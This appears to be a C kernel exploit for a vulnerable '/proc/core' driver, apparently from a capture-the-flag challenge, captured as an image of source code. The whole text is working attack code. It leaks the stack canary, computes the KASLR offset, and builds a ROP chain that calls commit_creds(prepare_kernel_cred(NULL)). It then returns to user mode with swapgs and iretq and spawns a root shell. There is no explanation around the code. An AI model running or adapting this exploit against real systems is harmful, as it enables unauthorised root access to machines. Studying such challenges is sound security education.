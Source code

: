 ```c
	commit_credsp(prepare_kernel_credp(NULL));
}

void shell(){
	if(getuid()){
		printf("\033[31m\033[1m[x] Error: Failed to get root, exiting......\n\033[0m");
		exit(1);
	}
	printf("\033[32m\033[1m[+] Getting the root......\033[0m\n");
	system("/bin/sh");
	exit(0);
}

int main(){
	saveStatus();
	fd = open("/proc/core", 2);		// open the process
	if(!fd){
		printf("\033[31m\033[1m[x] Error: Cannot open process \"core\"\n\033[0m");
		exit(1);
	}
	char buffer[0x100] = {0};
	get_function_address();		// get addresses of two key function
	
	unsigned long long base_offset = commit_creds - commit_creds_base;
	printf("\033[34m\033[1m[*] KASLR offset: \033[0m%#llx\n", base_offset);
	
	change_off(0x40);			// change the offset so that we can get canary later
	core_read(buffer);			// get canary
	
	printf("\033[34m\033[1m[*] Contents in buffer here:\033[0m\n");	// print content in buffer
	print_binary(buffer, 0x40);
	
	unsigned long long canary = ((size_t*)&buffer)[0];
	printf("\033[35m\033[1m[*] The value of canary is the first 8 bytes: \033[0m%#llx\n", canary);
	
	size_t ROP[100] = {0};
	memset(ROP, 0, 800);
	int idx = 0;
	for(int i=0; i<10; i++)
		ROP[idx++] = canary;
	ROP[idx++] = (unsigned long long)rise_cred;
	ROP[idx++] = swapgs_popfq_ret + base_offset;	// step 1 of returning to user mode: swapgs
	ROP[idx++] = 0;
	ROP[idx++] = iretq + base_offset;				// step 2 of returning to user mode: iretq
	// after the iretq: return address, user cs, user rflags, user sp, user ss
	ROP[idx++] = (unsigned long long)shell;
	ROP[idx++] = user_cs;
	ROP[idx++] = user_rflags;
	ROP[idx++] = user_sp;
	ROP[idx++] = user_ss;
	
	printf("\033[34m\033[1m[*] Our rop chain looks like: \033[0m\n");
	print_binary((char*)ROP, 0x100);
	
	write(fd, ROP, 0x800);
	core_copy_func(0xffffffffffff0100);
	return 0;
}
```

